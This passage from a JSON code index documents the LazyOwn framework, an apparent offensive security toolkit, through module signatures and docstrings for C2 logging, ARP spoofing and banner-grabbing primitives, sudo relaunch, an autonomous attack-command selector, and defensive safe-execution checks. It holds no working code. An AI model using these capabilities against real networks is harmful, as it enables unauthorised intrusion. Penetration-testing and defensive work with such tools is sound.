"spent_today", "signature": "def spent_today(self)"}, {"doc": "Return the number of calls the ledger recorded for the current day.", "kind": "method", "line": 256, "name": "calls_today", "signature": "def calls_today(self)"}, {"doc": "Clear the ledger for the current day and persist the empty state.", "kind": "method", "line": 261, "name": "reset", "signature": "def reset(self)"}, {"kind": "method", "line": 278, "name": "__init__", "signature": "def __init__(self, encoding_name)"}, {"doc": "Load the tiktoken encoding or return a fallback callable.", "kind": "method", "line": 283, "name": "_load_encoding", "signature": "def _load_encoding(encoding_name)"}, {"doc": "Return the number of tokens the input text contains.\n\nArgs:\n    text: Prompt or completion the guard measures.\nReturns:\n    Non negative integer count. Zero for the empty string.", "kind": "method", "line": 292, "name": "count", "signature": "def count(self, text)"}, {"kind": "method", "line": 319, "name": "__init__", "signature": "def __init__(self, config, estimator, ledger)"}, {"doc": "Return the price the guard applies to a model identifier.\n\nArgs:\n    model: Model identifier the caller asked for.\nReturns:\n    The configured price when the operator declared one. The\n    zero price for Ollama when the model is unknown so the\n    local model never charges the budget.", "kind": "method", "line": 329, "name": "price_for", "signature": "def price_for(self, model)"}, {"doc": "Return the dollar cost the guard would charge for a call.\n\nArgs:\n    model: Model identifier the caller asked for.\n    input_tokens: Input token count the estimator reported.\n    output_tokens: Output token count the caller declared.\nReturns:\n    Dollar cost expressed in United States dollars.", "kind": "method", "line": 343, "name": "estimate_cost", "signature": "def estimate_cost(self, model, input_tokens, output_tokens)"}, {"doc": "Check the budget and record a charge when the call fits.\n\nArgs:\n    prompt: Prompt the caller will forward to the backend.\n    model: Model identifier the caller will use.\n    output_tokens: Output token count the caller declares in\n        advance. The guard uses the value to estimate the cost\n        when the caller knows the answer length. The guard\n        falls back to zero when the caller cannot predict it.\nReturns:\n    The LedgerEntry the guard recorded. The caller never has\n    to inspect the entry. The entry exists so tests can pin\n    the cost the guard charged.\nRaises:\n    BudgetExceeded: when the per call token cap is exceeded,\n        the daily budget is exhausted, or the budget is\n        disabled and the cap is zero.", "kind": "method", "line": 356, "name": "estimate_and_check", "signature": "def estimate_and_check(self, prompt, model, output_tokens)"}, {"kind": "method", "line": 417, "name": "__init__", "signature": "def __init__(self, inner, guard, model)"}, {"doc": "Forward a non streaming call and record a charge.", "kind": "method", "line": 422, "name": "generate", "signature": "def generate(self, prompt)"}, {"doc": "Forward a streaming call. The charge is recorded up front.", "kind": "method", "line": 430, "name": "stream_generate", "signature": "def stream_generate(self, prompt)"}, {"doc": "Forward a role aware call. The prompt includes the system block.", "kind": "method", "line": 435, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}]}, {"doc": "Structured JSON-lines logging for the LazyOwn framework.  Replaces the historical ``print_msg`` / ``print_warn`` / ``print_error`` pattern with a unified JSON-lines logger that preserves ANSI-coloured console output AND writes machine-parseable entries to disk.  Contracts --------- * ``StructuredLogConfig``: every tunable — log level, output path, JSON vs plaintext, field redaction — lives here; no magic strings elsewhere. * ``StructuredLogger``: drop-in replacement for ``core.console`` helpers. Accepts ``extra`` kwargs that become top-level JSON fields. * ``get_logger(name)``: factory with lazy initialisation matching Python's ``logging.getLogger`` semantics. * ``install_json_handler``: one-time wiring that adds a rotating JSON-lines file handler without disturbing existing console handlers.  Usage::  from core.logging import StructuredLogConfig, get_logger  _log = get_logger(\"lazyc2.api\")  # Human-readable console + JSON-lines audit entry _log.info(\"Beacon checked in\", extra={\"client_id\": \"abc\", \"rhost\": \"10.0.0.5\"})", "id": "core/logging.py", "kind": "module", "label": "logging.py", "language": "py", "sha256": "1b2854fbcbe1beaa", "symbol_count": 12, "symbols": [{"doc": "Configuration contract for structured logging.\n\nAll log-related settings are centralized here. The framework reads\nthese from ``payload.json`` keys prefixed with ``log_``.", "kind": "class", "line": 42, "name": "StructuredLogConfig", "signature": "class StructuredLogConfig"}, {"doc": "Format a log record as a single JSON line.", "kind": "class", "line": 71, "name": "_JsonLineFormatter", "signature": "class _JsonLineFormatter(Formatter)"}, {"doc": "ANSI-coloured console formatter matching ``core.console`` style.", "kind": "class", "line": 121, "name": "_ConsoleFormatter", "signature": "class _ConsoleFormatter(Formatter)"}, {"doc": "Logger subclass that accepts ``extra`` kwargs as structured fields.\n\nEvery keyword in ``extra`` is stored on the record and appears as a\ntop-level key in the JSON-lines output. Sensitive fields matching\n``StructuredLogConfig.redacted_fields`` are replaced with ``[REDACTED]``\nbefore serialization.", "kind": "class", "line": 139, "name": "StructuredLogger", "signature": "class StructuredLogger(Logger)"}, {"doc": "Create or retrieve a :class:`StructuredLogger` instance.\n\nArgs:\n    name: The logger name (typically ``__name__``).\n    config: Optional configuration. When ``None``, defaults are used.\n\nReturns:\n    A :class:`StructuredLogger` wired up with console + file handlers.", "kind": "function", "line": 180, "name": "_log_factory", "signature": "def _log_factory(name, config)"}, {"doc": "Return a cached :class:`StructuredLogger` for *name*.\n\nOn first call the default configuration is applied. Subsequent calls\nwith the same *name* return the same logger instance.\n\nArgs:\n    name: The logger name. Defaults to ``\"lazyown\"``.\n\nReturns:\n    A configured :class:`StructuredLogger`.", "kind": "function", "line": 231, "name": "get_logger", "signature": "def get_logger(name)"}, {"doc": "Install a JSON-lines file handler on *name*, preserving existing handlers.\n\nWhen the logger already owns handlers (a custom console sink, a\nlibrary-configured appender) they are left untouched and only the\nJSON file handler is appended. When the logger is cold it receives\nthe standard console plus file wiring from :func:`_log_factory`.\nThe operation is idempotent: a second call with the same name and\nconfiguration adds nothing.\n\nArgs:\n    name: The logger name to wire.\n    config: Optional configuration override, cached for future\n        :func:`get_logger` calls.", "kind": "function", "line": 251, "name": "install_json_handler", "signature": "def install_json_handler(name, config)"}, {"doc": "Replace the cached configuration globally.\n\nAll future ``get_logger()`` calls will use *config*. Existing\nloggers in the cache are refreshed.\n\nArgs:\n    config: The new configuration to apply.", "kind": "function", "line": 300, "name": "reconfigure", "signature": "def reconfigure(config)"}, {"kind": "method", "line": 74, "name": "__init__", "signature": "def __init__(self, redacted_fields)"}, {"kind": "method", "line": 78, "name": "format", "signature": "def format(self, record)"}, {"kind": "method", "line": 132, "name": "format", "signature": "def format(self, record)"}, {"kind": "method", "line": 148, "name": "makeRecord", "signature": "def makeRecord(self, name, level, fn, lno, msg, args, exc_info, func, extra, sinfo)"}]}, {"doc": "Network primitives for the LazyOwn framework.  Extracted from ``utils.py`` — ARP spoofing, socket operations, port detection, and network parsing utilities.", "id": "core/network.py", "kind": "module", "label": "network.py", "language": "py", "sha256": "5209b3cc9ee01117", "symbol_count": 8, "symbols": [{"doc": "Extract IP and MAC from a formatted string.\n\nExpected format: ``IP: (192.168.1.222) MAC: ec:c3:02:b0:4c:96``\n\nReturns:\n    ``(ip, mac)`` tuple or ``(None, None)`` on failure.", "kind": "function", "line": 18, "name": "parse_ip_mac", "signature": "def parse_ip_mac(input_string)"}, {"doc": "Build a raw ARP request/reply packet.\n\nArgs:\n    src_mac: Source MAC (``xx:xx:xx:xx:xx:xx``).\n    src_ip: Source IP (dotted decimal).\n    dst_ip: Destination IP.\n    dst_mac: Destination MAC.\n\nReturns:\n    Raw Ethernet + ARP frame bytes.", "kind": "function", "line": 33, "name": "create_arp_packet", "signature": "def create_arp_packet(src_mac, src_ip, dst_ip, dst_mac)"}, {"doc": "Send a raw packet on a given network interface.\n\nArgs:\n    packet: Raw frame bytes.\n    iface: Interface name (e.g. ``eth0``).", "kind": "function", "line": 66, "name": "send_packet", "signature": "def send_packet(packet, iface)"}, {"doc": "Parse a ``/proc/net/*`` file and extract (ip, port) pairs.\n\nArgs:\n    file_path: Path to a ``/proc/net/tcp``-style file.\n\nReturns:\n    List of ``(ip_address, port)`` tuples.", "kind": "function", "line": 78, "name": "parse_proc_net_file", "signature": "def parse_proc_net_file(file_path)"}, {"doc": "Discover listening TCP ports from ``/proc/net/tcp`` and ``tcp6``.\n\nReturns:\n    List of ``(ip, port)`` tuples for listening endpoints.", "kind": "function", "line": 105, "name": "get_open_ports", "signature": "def get_open_ports()"}, {"doc": "Check whether a TCP port is already bound.\n\nArgs:\n    port: Port number.\n    host: Host to check (default ``127.0.0.1``).\n\nReturns:\n    True if the port is in use.", "kind": "function", "line": 120, "name": "is_port_in_use", "signature": "def is_port_in_use(port, host)"}, {"doc": "Grab a TCP banner from the given host and port.\n\nArgs:\n    ip: Target IP.\n    port: Target port.\n\nReturns:\n    Banner string, or an empty string on failure.", "kind": "function", "line": 134, "name": "get_banner", "signature": "def get_banner(ip, port)"}, {"doc": "Collect local network information.\n\nReturns:\n    Dict with keys ``hostname``, ``ips``, ``interfaces``.", "kind": "function", "line": 154, "name": "get_network_info", "signature": "def get_network_info()"}]}, {"doc": "Shared text kernel for the LazyOwn framework.  Single-implementation rule: the live helpers live in ``utils`` (used by the CLI and C2). This module keeps only ``strip_ansi``, the one extraction the framework actually imports. The rest of the historic ``utils.py`` fork was removed because every copy had diverged and zero callers (see ``tests/test_single_implementation.py``).", "id": "core/parsers.py", "kind": "module", "label": "parsers.py", "language": "py", "sha256": "31d02ac9d7f8a4cd", "symbol_count": 1, "symbols": [{"doc": "Remove ANSI escape sequences and readline markers from a string.\n\nHandles standard escape codes (``\u001b[...m``), extended unicode\nescape initiators (``\u001b``, ``›``), CSI sequences, and the\n``\u0001``/``\u0002`` (SOH/STX) delimiters that ``render_prompt`` emits\nso readline can measure prompt width.\n\nArgs:\n    text: Raw terminal output.\n\nReturns:\n    Clean text without ANSI codes or readline control markers.", "kind": "function", "line": 15, "name": "strip_ansi", "signature": "def strip_ansi(text)"}]}, {"doc": "Declarative schema and validation for ``payload.json``.  ``payload.json`` is the single source of runtime configuration for every component of LazyOwn (CLI, C2, MCP, autonomous daemon). Historically it has been a free-form dictionary: any key/value was accepted at load time, and each consumer rediscovered the right type with ad-hoc casts. Typos in keys silently degraded features instead of surfacing as errors, and string values that needed to be integers (``\"5555\"`` vs ``5555``) caused failures deep inside subprocess calls.  This module introduces a thin, additive validation layer:  * :class:`FieldSpec` declares the expected type, default, and human-readable documentation for every well-known payload key. * :func:`validate_value` checks a single value against its spec. * :func:`validate_payload` returns the full list of issues without raising, so backwards compatibility is preserved — callers decide whether to warn or block. * :func:`coerce_value` performs safe, well-defined coercions (e.g. parsing ``\"5555\"`` into ``5555`` when the field is declared as an integer port).  The schema is the source of truth for the setup wizard as well — every prompt label, default, validator and example value comes from here so a new field is defined in exactly one place.  Design rules:  - Adding a new well-known key means adding a :class:`FieldSpec` here; no other module needs to change to surface the documentation. - Validation is intentionally non-fatal: unknown keys are warnings (so", "id": "core/payload_schema.py", "kind": "module", "label": "payload_schema.py", "language": "py", "sha256": "f3f0c09d539daa18", "symbol_count": 27, "symbols": [{"doc": "Categorical type of a payload field used by validators and the wizard.", "kind": "class", "line": 73, "name": "FieldKind", "signature": "class FieldKind(StrEnum)"}, {"doc": "Severity of a :class:`ValidationIssue`.", "kind": "class", "line": 91, "name": "Severity", "signature": "class Severity(StrEnum)"}, {"doc": "Declarative description of a payload field.\n\nAttributes:\n    name: Key as it appears in ``payload.json``.\n    kind: Categorical :class:`FieldKind` controlling validation and\n        coercion behaviour.\n    default: Value used when bootstrapping a brand new payload.\n    description: One-line plain-language explanation suitable for\n        help text and wizard tooltips.\n    long_help: Multi-line explanation used by the wizard's tutorial\n        mode. Newlines are preserved verbatim.\n    example: Concrete example value shown to novices.\n    category: Logical grouping (``network``, ``c2``, ``recon``, ``ai``,\n        ``credentials``, ``wordlists``, ``email``, ``misc``).\n    sensitive: When ``True`` the wizard masks the value in summaries.\n    required: When ``True`` an empty/missing value is reported as an\n        error rather than a warning.\n    allowed: Optional whitelist of acceptable values for enum-like fields.\n    min_value: Optional inclusive lower bound for numeric fields.\n    max_value: Optional inclusive upper bound for numeric fields.\n    custom_validator: Optional callable returning ``None`` when the\n        value is valid or a string message when it is not. Runs after\n        the kind-based validator.", "kind": "class", "line": 100, "name": "FieldSpec", "signature": "class FieldSpec"}, {"doc": "Structured outcome of a single validation check.\n\nIssues are returned as a list so consumers can render them as a table,\nemit a single warning, or short-circuit on the first error. The\n:attr:`severity` field makes it explicit which issues are advisory and\nwhich must be addressed before the value can be used.\n\nAttributes:\n    key: Name of the offending field.\n    message: Human-readable explanation of the problem.\n    severity: One of :class:`Severity`. Callers should treat warnings\n        as advisory and errors as blocking.\n    value: The raw value that produced the issue. Sensitive fields are\n        masked by :func:`format_issue` so logs do not leak credentials.", "kind": "class", "line": 142, "name": "ValidationIssue", "signature": "class ValidationIssue"}, {"kind": "function", "line": 165, "name": "_validate_string", "signature": "def _validate_string(value)"}, {"kind": "function", "line": 171, "name": "_validate_int", "signature": "def _validate_int(value)"}, {"kind": "function", "line": 185, "name": "_validate_port", "signature": "def _validate_port(value)"}, {"kind": "function", "line": 195, "name": "_validate_bool", "signature": "def _validate_bool(value)"}, {"kind": "function", "line": 212, "name": "_validate_ip", "signature": "def _validate_ip(value)"}, {"kind": "function", "line": 220, "name": "_validate_hostname", "signature": "def _validate_hostname(value)"}, {"kind": "function", "line": 232, "name": "_validate_url", "signature": "def _validate_url(value)"}, {"kind": "function", "line": 240, "name": "_validate_path", "signature": "def _validate_path(value)"}, {"kind": "function", "line": 246, "name": "_validate_interface", "signature": "def _validate_interface(value)"}, {"kind": "function", "line": 254, "name": "_validate_hex", "signature": "def _validate_hex(value)"}, {"kind": "function", "line": 262, "name": "_validate_os_id", "signature": "def _validate_os_id(value)"}, {"kind": "function", "line": 268, "name": "_validate_json_blob", "signature": "def _validate_json_blob(value)"}, {"kind": "function", "line": 280, "name": "_validate_opaque", "signature": "def _validate_opaque(_value)"}, {"kind": "function", "line": 301, "name": "_coerce_int", "signature": "def _coerce_int(raw)"}, {"kind": "function", "line": 316, "name": "_coerce_bool", "signature": "def _coerce_bool(raw)"}, {"kind": "function", "line": 335, "name": "_spec", "signature": "def _spec(name, kind, default, description)"}, {"doc": "Return the :class:`FieldSpec` for ``key`` or ``None`` if it is unknown.", "kind": "function", "line": 1547, "name": "field_for", "signature": "def field_for(key)"}, {"doc": "Return ``raw`` coerced to the canonical type declared for ``key``.\n\nUnknown keys and values that already satisfy the schema are returned\nunchanged. Coercion is intentionally narrow: only ``int``/``port`` and\nboolean-like strings are converted. This keeps the function safe for\nuse inside the ``assign`` command without surprising operators.\n\nArgs:\n    key: Payload key as written in ``payload.json``.\n    raw: Value about to be assigned.\n\nReturns:\n    The coerced value, or ``raw`` unchanged when no coercion is\n    defined for the field's kind.", "kind": "function", "line": 1552, "name": "coerce_value", "signature": "def coerce_value(key, raw)"}, {"doc": "Validate ``value`` against the schema entry for ``key``.\n\nReturns:\n    ``None`` when the value is acceptable; otherwise a\n    :class:`ValidationIssue` whose severity is ``ERROR`` when the\n    field is declared as required and either missing or invalid, and\n    ``WARNING`` for soft constraints (out-of-range integers, bad\n    format on optional fields). Unknown keys produce a warning so the\n    caller knows the value will not be type-checked.", "kind": "function", "line": 1575, "name": "validate_value", "signature": "def validate_value(key, value)"}, {"doc": "Validate an entire payload dictionary and return all issues found.\n\nThe check is intentionally exhaustive — it returns issues for every\nkey, including unknown ones, so callers can decide which severity\nlevels to surface. No exception is ever raised, which preserves the\nhistorical contract that loading ``payload.json`` must never crash\nthe framework just because a field is malformed.\n\nArgs:\n    payload: Dictionary loaded from ``payload.json``.\n\nReturns:\n    Possibly empty list of :class:`ValidationIssue`. Required fields\n    that are missing from the payload entirely are reported with\n    :class:`Severity.ERROR`.", "kind": "function", "line": 1649, "name": "validate_payload", "signature": "def validate_payload(payload)"}, {"doc": "Render a :class:`ValidationIssue` as a single human-readable line.\n\nSensitive fields have their value redacted so log scrapers do not\nexpose credentials. The format intentionally mirrors GCC-style\ndiagnostics (``key: severity: message``) so it grep-friendly.", "kind": "function", "line": 1684, "name": "format_issue", "signature": "def format_issue(issue)"}, {"doc": "Return a freshly built payload dict populated from the schema defaults.\n\nUseful for tests and for the wizard when no ``payload.json`` exists.", "kind": "function", "line": 1702, "name": "default_payload", "signature": "def default_payload()"}, {"doc": "Return schema entries grouped by :attr:`FieldSpec.category`.\n\nUsed by the wizard to render category-aware tables and by future\ndocumentation generators.", "kind": "function", "line": 1710, "name": "categories", "signature": "def categories()"}]}, {"doc": "Process and subprocess utilities for the LazyOwn framework.  Extracted from ``utils.py`` — command execution, binary/package detection, sudo escalation, virtualenv activation.", "id": "core/process.py", "kind": "module", "label": "process.py", "language": "py", "sha256": "303e41828d5d85bb", "symbol_count": 12, "symbols": [{"doc": "Check if a Go tool binary is installed and runnable.\n\nArgs:\n    tool_name: Name of the binary to check.\n\nReturns:\n    True if the tool responds with a zero exit code to ``help``.", "kind": "function", "line": 34, "name": "check_go_tool_installed", "signature": "def check_go_tool_installed(tool_name)"}, {"doc": "Check whether binary is on ``PATH``.\n\nUses ``shutil.which`` — no shell spawning, no injection surface.\n\nArgs:\n    binary_name: Name of the binary.\n\nReturns:\n    True if found on PATH.", "kind": "function", "line": 54, "name": "is_binary_present", "signature": "def is_binary_present(binary_name)"}, {"doc": "Decorator that iterates over a list of remote hosts.\n\nWraps a shell method so it runs against each host in\n``self.params[\"rhost\"]``.  The original host is restored after\neach iteration.\n\nArgs:\n    func: The method to wrap.\n\nReturns:\n    The decorated wrapper.", "kind": "function", "line": 68, "name": "handle_multiple_rhosts", "signature": "def handle_multiple_rhosts(func)"}, {"doc": "Re-launch the script with ``sudo`` if not already root.\n\nExits the current process and replaces it with a sudo invocation.", "kind": "function", "line": 97, "name": "check_sudo", "signature": "def check_sudo()"}, {"doc": "Execute a shell command via ``SafeRunner``.\n\nArgs:\n    command: Shell command string.\n\nReturns:\n    Stripped stdout on success, error message on failure.", "kind": "function", "line": 108, "name": "run", "signature": "def run(command)"}, {"doc": "Check whether a Python package is importable.\n\nArgs:\n    package_name: Name of the package (e.g. ``requests``).\n\nReturns:\n    True if ``importlib.util.find_spec`` succeeds.", "kind": "function", "line": 143, "name": "is_package_installed", "signature": "def is_package_installed(package_name)"}, {"doc": "Print a dim completion line (elapsed time + exit code) after a run.\n\nOnly shown on interactive terminals and only when the command took long\nenough to matter (``RUN_COMMAND_STATUS_MIN_SECONDS``) or reported a\nnon-zero exit, so quick aliases stay silent while long scans and failed\ntools always leave a visible trace. Never touches the returned output.", "kind": "function", "line": 159, "name": "_print_run_command_status", "signature": "def _print_run_command_status(command, elapsed, exit_code)"}, {"doc": "Run a command, streaming output in real time.\n\nUses ``subprocess.Popen`` to execute ``command``, printing stdout and\nstderr as they arrive and returning the complete output string.\n\nstderr is drained on a worker thread so a chatty process writing to\nstderr while stdout is quiet can never deadlock the read loop.\n\nArgs:\n    command: The command string to execute.\n    timeout: Optional per-command timeout in seconds. When exceeded the\n        process is killed and the partial output is returned.\n\nReturns:\n    Combined stdout + stderr output.", "kind": "function", "line": 183, "name": "run_command", "signature": "def run_command(command, timeout)"}, {"doc": "Create a tmux session if it does not already exist.\n\nArgs:\n    session_name: Name for the tmux session.", "kind": "function", "line": 253, "name": "ensure_tmux_session", "signature": "def ensure_tmux_session(session_name)"}, {"doc": "Start an HTTP server and print the serving URL.\n\nArgs:\n    httpd: An HTTPServer instance with a ``serve_forever`` method.\n    url: URL path for the server.\n    lhost: Listening host address.", "kind": "function", "line": 271, "name": "activate_server", "signature": "def activate_server(httpd, url, lhost)"}, {"kind": "function", "line": 82, "name": "wrapper", "signature": "def wrapper(self)"}, {"kind": "function", "line": 220, "name": "_drain_stderr", "signature": "def _drain_stderr()"}]}, {"doc": "Runtime profiles: ``light`` vs ``full`` installations.  The profile selects how much of the framework is expected to be present:  - ``full`` (default): every current behavior. Shell, C2, recon, analytics, and optional AI/LLM features that degrade gracefully when their packages are missing. - ``light``: shell + C2 + recon core without the analytics and AI stack. The installer skips the heavy data/AI distributions and ``doctor`` does not require them.  Selection is explicit and never guessed: the ``LAZYOWN_PROFILE`` environment variable wins, otherwise ``full`` applies. Anything else is a :exc:`ValueError` so typos fail loudly instead of silently changing behavior.", "id": "core/profiles.py", "kind": "module", "label": "profiles.py", "language": "py", "sha256": "d41a22f1a6aef4ce", "symbol_count": 3, "symbols": [{"doc": "Return the selected runtime profile.\n\nReturns:\n    ``\"light\"`` when ``LAZYOWN_PROFILE=light`` (case-insensitive,\n    surrounding whitespace ignored), otherwise ``\"full\"``.\n\nRaises:\n    ValueError: When ``LAZYOWN_PROFILE`` is set to anything else.", "kind": "function", "line": 40, "name": "active_profile", "signature": "def active_profile()"}, {"doc": "Return ``True`` when the light profile is selected.", "kind": "function", "line": 59, "name": "is_light", "signature": "def is_light()"}, {"doc": "Filter dependency specs down to the ones the active profile needs.\n\nArgs:\n    specs: :class:`cli.doctor.PackageSpec` entries (or any objects with\n        an ``import_name`` attribute).\n\nReturns:\n    Full list under the full profile; the list minus\n    :data:`LIGHT_SKIPPED_IMPORTS` under the light profile.", "kind": "function", "line": 64, "name": "specs_for_profile", "signature": "def specs_for_profile(specs)"}]}, {"doc": "Prompt builder for LazyOwn CLI and C2 dashboard banner.  Exposes :func:`getprompt` which returns the coloured status line shown in both the CLI header and the C2 web dashboard. Extracted from ``utils.py`` to break the 3358-line monolith.", "id": "core/prompt.py", "kind": "module", "label": "prompt.py", "language": "py", "sha256": "8ed96a0e3c6bf2fb", "symbol_count": 8, "symbols": [{"doc": "Load ``payload.json`` and return a dict with default values.\n\nReturns:\n    Dict with ``lhost``, ``rhost``, ``domain``, ``api_key`` keys.", "kind": "function", "line": 17, "name": "_load_prompt_payload", "signature": "def _load_prompt_payload()"}, {"doc": "Return current git branch and dirty-status for the prompt.\n\nReturns an empty string if git is not available or the working\ntree is not a git repo.", "kind": "function", "line": 35, "name": "get_git_info", "signature": "def get_git_info()"}, {"doc": "Return the active virtualenv name, or empty string if none.", "kind": "function", "line": 60, "name": "get_venv_info", "signature": "def get_venv_info()"}, {"doc": "Return the running kernel version (short form).", "kind": "function", "line": 68, "name": "get_kernel", "signature": "def get_kernel()"}, {"doc": "Return ``(width, height)`` of the terminal, defaulting to 80x24.", "kind": "function", "line": 78, "name": "get_terminal_size", "signature": "def get_terminal_size()"}, {"doc": "Return a comma-separated string of non-loopback IPv4 addresses.", "kind": "function", "line": 87, "name": "get_local_ips", "signature": "def get_local_ips()"}, {"doc": "Copy ``text`` to the system clipboard via xclip.\n\nReturns True on success, False if xclip is unavailable.", "kind": "function", "line": 109, "name": "copy2clip", "signature": "def copy2clip(text)"}, {"doc": "Build the coloured status line for the CLI header and C2 dashboard.\n\nReturns a Rich-formatted string containing the current session\ncontext: operator@host, network interfaces, target, domain, git\nbranch, virtualenv, and timestamp.\n\nReturns:\n    A Rich-console compatible string.", "kind": "function", "line": 127, "name": "getprompt", "signature": "def getprompt()"}]}, {"doc": "Stable structural interfaces (PEP 544 ``Protocol``) for high-level orchestration.  These protocols are the contract used by ``skills/autonomous_daemon.py``, ``skills/swan_agent.py`` and the MCP layer. New backends, selectors and memory stores must implement these signatures so the orchestration layer never depends on a concrete implementation (Dependency Inversion).  Type-only — no runtime side effects.", "id": "core/protocols.py", "kind": "module", "label": "protocols.py", "language": "py", "sha256": "5b8474fd8fffc260", "symbol_count": 12, "symbols": [{"doc": "Suggests the next command for a given target/phase.\n\nImplementations include ``ReactiveSelector``, ``ParquetSelector``,\n``BridgeSelector``, ``SWANSelector``, ``LLMSelector`` and\n``FallbackSelector``.", "kind": "class", "line": 17, "name": "Selector", "signature": "class Selector(Protocol)"}, {"doc": "Pluggable language model backend (Groq, Ollama, Claude, ...).", "kind": "class", "line": 37, "name": "LLMBackend", "signature": "class LLMBackend(Protocol)"}, {"doc": "Persistent key/value store used by hive_mind, parquet_db and rag layers.", "kind": "class", "line": 51, "name": "MemoryStore", "signature": "class MemoryStore(Protocol)"}, {"doc": "Catalog of executable commands keyed by phase + OS.", "kind": "class", "line": 62, "name": "BridgeCatalog", "signature": "class BridgeCatalog(Protocol)"}, {"doc": "Scores the outcome of an executed command for RL/MoE feedback.", "kind": "class", "line": 70, "name": "OutcomeEvaluator", "signature": "class OutcomeEvaluator(Protocol)"}, {"doc": "Return ``{\"command\": str, \"reasoning\": str, \"mitre\": str}`` or ``None``.", "kind": "method", "line": 27, "name": "suggest", "signature": "def suggest(self, target, phase, context)"}, {"doc": "Return the model completion as a string.", "kind": "method", "line": 40, "name": "complete", "signature": "def complete(self, system, user, max_tokens, temperature)"}, {"kind": "method", "line": 54, "name": "put", "signature": "def put(self, key, value)"}, {"kind": "method", "line": 56, "name": "get", "signature": "def get(self, key, default)"}, {"kind": "method", "line": 58, "name": "search", "signature": "def search(self, query, k)"}, {"doc": "Return command entries matching ``phase`` and ``os_id``.", "kind": "method", "line": 65, "name": "filter", "signature": "def filter(self, phase, os_id)"}, {"doc": "Return a reward in ``[0.0, 1.0]``.", "kind": "method", "line": 73, "name": "evaluate", "signature": "def evaluate(self, command, output, target, phase)"}]}, {"doc": "Terminal-safe Rich console factory.  Colors and unicode glyphs are only safe when the sink interprets them. This module centralises that decision so no surface ever leaks raw ANSI codes (``?[32m``) or placeholder boxes (``?`` for ``╭─✔█``) again:  - Rich auto-detection already drops ANSI on non-tty / NO_COLOR / TERM=dumb sinks — every console here keeps those defaults. - When stdout cannot encode UTF-8, panels switch to the ASCII box and glyph helpers degrade to ``[x]``/``[>]``/``[ ]``/``#``/``-``.", "id": "core/safe_console.py", "kind": "module", "label": "safe_console.py", "language": "py", "sha256": "5e4dd4263553158f", "symbol_count": 5, "symbols": [{"doc": "Return True when stdout can encode box-drawing glyphs and emoji.", "kind": "function", "line": 33, "name": "supports_unicode", "signature": "def supports_unicode()"}, {"doc": "Build a Rich console with safe color/box defaults.\n\nCallers may pass Rich ``Console`` options (``width``, ``file``);\n``color_system``/``force_terminal`` are left on auto so piped or\ncrippled sinks never receive raw escape codes.", "kind": "function", "line": 42, "name": "get_console", "signature": "def get_console()"}, {"doc": "Return the ROUNDED box on UTF-8 sinks, ASCII otherwise.", "kind": "function", "line": 52, "name": "panel_box", "signature": "def panel_box()"}, {"doc": "Glyph for a milestone state: done / active / pending (or other).", "kind": "function", "line": 57, "name": "milestone_glyph", "signature": "def milestone_glyph(state)"}, {"doc": "Fixed-width fill bar, unicode blocks or ASCII hashes.", "kind": "function", "line": 67, "name": "progress_bar", "signature": "def progress_bar(ratio, width)"}]}, {"doc": "Centralized safe command execution for the LazyOwn framework.  Contract: replaces all ``os.system()`` and ``subprocess.run(shell=True)`` call sites with a single, audited, default-deny execution path.  Invariants:  1. ``safe_system`` never passes user-controlled strings to a shell. 2. ``safe_run_argv`` always uses ``shell=False``. 3. ``safe_run_shell`` requires explicit ``allow=True`` plus a reason. 4. ``safe_clear_screen`` uses the terminal capability query, never os.system. 5. ``validate_url`` rejects shell metacharacters in URLs before git clone. 6. ``safe_git_clone`` uses subprocess list-form, never os.system. 7. ``safe_ip_display`` parses ``ip`` output in Python, never via shell pipes.", "id": "core/safe_exec.py", "kind": "module", "label": "safe_exec.py", "language": "py", "sha256": "62669483bf35175d", "symbol_count": 12, "symbols": [{"doc": "Raised when a command contains shell metacharacters.", "kind": "class", "line": 44, "name": "CommandInjectionError", "signature": "class CommandInjectionError(PermissionError)"}, {"doc": "Raised when a URL contains shell metacharacters.", "kind": "class", "line": 48, "name": "UrlValidationError", "signature": "class UrlValidationError(PermissionError)"}, {"doc": "Return True when a command string needs a shell to be interpreted.\n\nA command that only carries a program and its arguments runs with\n``shlex.split`` and ``shell=False``. Redirections, pipes, command\nchaining, substitutions, globs, and tilde expansion need a shell.\n\nArgs:\n    command: The command string to inspect.\nReturns:\n    True when the command must run through ``bash -c``.", "kind": "function", "line": 52, "name": "needs_shell", "signature": "def needs_shell(command)"}, {"doc": "Execute a fixed command string through the shell safely.\n\nOnly allows pre-defined, non-user-controlled command strings.\nRejects any command containing shell metacharacters that could\nindicate injection.\n\nPrefer :func:`safe_run_argv` for any new call site: this helper keeps\n``shell=True`` for legacy fixed strings and must never receive\ninterpolated user input.\n\nArgs:\n    command: A fixed command string (no user interpolation).\n    reason: Audit justification.\n\nReturns:\n    The exit code of the command.\n\nRaises:\n    CommandInjectionError: If the command contains metacharacters.\n    ValueError: If command is empty.", "kind": "function", "line": 69, "name": "safe_system", "signature": "def safe_system(command)"}, {"doc": "Execute a command via subprocess without shell interpretation.\n\nArgs:\n    argv: Program and arguments as a sequence. Must not be empty.\n    timeout: Optional wall-clock timeout in seconds.\n    capture_output: Whether to capture stdout and stderr.\n    check: Whether to raise on non-zero exit.\n    input_data: Optional stdin content.\n\nReturns:\n    CompletedProcess result.\n\nRaises:\n    ValueError: If argv is empty.", "kind": "function", "line": 106, "name": "safe_run_argv", "signature": "def safe_run_argv(argv)"}, {"doc": "Execute a command through the shell, gated by policy.\n\nArgs:\n    command: The shell command to run.\n    allow: Must be True to execute.\n    reason: Free-text justification.\n    timeout: Optional wall-clock timeout.\n    cwd: Optional working directory, preserves caller behaviour.\n\nReturns:\n    CompletedProcess result.\n\nRaises:\n    PermissionError: When allow is not True.\n    ValueError: When allow is True but reason is empty.", "kind": "function", "line": 146, "name": "safe_run_shell", "signature": "def safe_run_shell(command)"}, {"doc": "Clear the terminal screen without using os.system.\n\nUses tput reset via subprocess list-form, falling back to\nANSI escape sequences when tput is unavailable.", "kind": "function", "line": 192, "name": "safe_clear_screen", "signature": "def safe_clear_screen()"}, {"doc": "Validate a URL string, rejecting shell metacharacters.\n\nArgs:\n    url: The URL to validate.\n\nReturns:\n    The validated URL string.\n\nRaises:\n    UrlValidationError: If the URL contains shell metacharacters\n        or does not match the expected URL pattern.\n    ValueError: If the URL is empty.", "kind": "function", "line": 207, "name": "validate_url", "signature": "def validate_url(url)"}, {"doc": "Clone a git repository safely using subprocess list-form.\n\nNever uses os.system. Validates the URL before execution.\n\nArgs:\n    repo_url: The git repository URL (http/https only).\n    target_dir: The target directory path.\n    timeout: 